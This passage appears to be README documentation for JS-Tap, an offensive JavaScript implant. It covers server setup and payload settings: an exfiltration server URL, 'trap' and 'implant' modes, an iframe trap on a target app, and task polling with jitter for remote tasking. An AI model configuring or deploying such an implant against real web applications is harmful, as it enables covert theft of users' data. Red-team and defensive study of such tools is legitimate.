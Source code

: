 At the top of the jstapRun.sh script are the **numWorkers** and **numThreads** parameters. I like to use number of CPUs + 1 for workers, and 4-8 threads depending on how beefy the processors are. For NGINX in its configuration I typically set **worker_processes auto;**

Proxy Mode is set by the **PROXYMODE** variable, and the data directory with the **DATADIRECTORY** variable. Note the data directory variable needs a trailing '/' added. 


Using the gunicorn startup script will use a self-signed cert when started with **PROXYMODE** set to False. You need to generate that self-signed cert first with:<br>
**openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes**


### JS-Tap Payload (telemlib.js) Configuration
These configuration variables are in the **initGlobals()** function. 

#### JS-Tap Server Location
You need to configure the payload with the URL of the JS-Tap server it will connect back to. 
```
window.taperexfilServer = "https://127.0.0.1:8444";
```

#### Mode
Set to either **trap** or **implant**
This is set with the variable:
```
window.taperMode = "trap";
or
window.taperMode = "implant";
```

#### Trap Mode Starting Page
Only needed for trap mode. See explanation in **Operating Modes** section above.<br>
Sets the page the user starts on when the iFrame trap is set.  
```
window.taperstartingPage = "http://targetapp.com/somestartpage";
```

If you want the trap to start on the current page, instead of redirecting the user to a different page in the iframe trap, you can use:
```
window.taperstartingPage = window.location.href;
```
#### Client Tag
Useful if you're using JS-Tap against multiple applications or deployments at once and want a visual indicator of what payload was loaded. Remember that the entire /payloads directory is served, you can have multiple JS-Tap payloads configured with different modes, start pages, and client tags.

This tag string (keep it short!) is prepended to the client nickname in the JS-Tap portal. Setup multiple payloads, each with the appropriate configuration for the application its being used against, and add a tag indicating which app the client is running. 
```
window.taperTag = 'whatever';
```
#### Custom Payload Tasks
Used to configure if clients are checking for **Custom Payload** tasks, and how often they're checking. The jitter settings
Let you optionally set a floor and ceiling modifier. A random value between these two numbers will be picked
and added to the check delay. Set these to 0 and 0 for no jitter. 
```
window.taperTaskCheck        = true;
window.taperTaskCheckDelay   = 5000;
window.taperTaskJitterBottom = -2000;
window.taperTaskJitterTop    = 2000;
```
